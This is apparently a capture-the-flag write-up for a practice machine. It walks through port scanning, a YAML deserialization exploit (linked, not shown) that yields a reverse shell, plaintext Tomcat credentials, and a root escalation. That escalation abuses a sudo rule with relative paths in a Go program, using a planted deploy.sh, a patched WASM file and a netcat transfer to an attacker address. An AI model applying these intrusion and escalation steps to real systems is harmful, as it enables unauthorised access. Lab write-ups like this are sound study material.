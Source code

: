 
IP : 10.10.10.227 

nmap show us there are two ports open 

|Port|Servce|
|----|----| 
|22|ssh|
|8080|http|

The http server is a apache server with yaml parser. 
YAML is data.serialization language. It common used for configuration files and used for application for stored or transmittied. 

[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

Has a excellence exploit for yaml 

Once I get a reverse shell as tomcat. 
time to look for a way to privilege escalation to user. 
During eom emulation I find the creditials of the user in file /opt/tomcat/conf/tomcat-users.xsd

```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

I can now ssh into the machine using the credientals.

## privilege escalation to root 
Frist we check what we can run as root without password. 

```
(ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Lets see what the file says:

```
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {          <==========================================
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

We can see a mistake in the programming in the code, instead for absolute path it relative path, allows us to manipulate these varibles so they can read from current working directory, from where we execute index.go. 

Lets make a tmp file and copy main.wasm and create a deploy.sh 

```
mkdir tmp

cp /opt/wasm-functions/main.wasm ./
touch deploy.sh
nano deploy.sh
```

We write to our file that echo the content for root.txt 
```
#!/bin/sh

cat /root/root.txt
```

Lets run the command and see what happens. 
... Not ready to deploy so the value of f from main.wasm is not 1.

We have to edit the main.wasm file to ensure that main.wasm output with f with 1. 

[https://github.com/webassembly/wabt](https://github.com/webassembly/wabt) 

```
sudo apt install wabt  #install the binary needed  
```

allows us to edit wasm by converting it to wat the readable format for wasm files. 

transfer the main.wasm to your own machine so we have the oppitunity to edit it. 

```
nc 10.10.14.200 5555 < main.wasm
nc -lnvp 5555 > main.wasm    
```
Convert the file to wat 
```
wasm2wat main.wasm > main.wat 
nano main.wat 
```

min.wat content. 
```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)      <=======================================
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```
It will never return with a value other then 0, lets change that by editing it too 1. 
```
i32.const 1) 
```

Convert back to wasm and transfer to target 
```
wat2wasm main.wat
scp main.wasm admin@ophiuchi.htb:/home/admin/tmp
```

Run the command again and get the flag. 
```
/usr/bin/go run /opt/wasm-functions/index.go
```